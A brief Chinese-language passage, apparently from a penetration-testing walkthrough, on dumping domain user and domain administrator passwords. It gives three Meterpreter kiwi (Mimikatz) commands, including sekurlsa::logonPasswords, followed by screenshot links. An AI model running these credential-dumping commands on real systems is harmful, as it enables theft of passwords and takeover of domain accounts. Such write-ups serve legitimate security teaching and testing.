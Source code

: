 抓取域用户密码  
使用 meterpreter 上的 kiwi 模块尝试抓取域用户及域管理员的密码：

```plain
load kiwi
kiwi_cmd privilege::debug
kiwi_cmd sekurlsa::logonPasswords
```

[![](assets/1708094050-80a9c346e71784c616e356b1d973bdc9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621150654-34617e12-1002-1.png)

[![](assets/1708094050-ef66d7ff6cf2662e790ecb3f80b780aa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621150659-3759027a-1002-1.png)

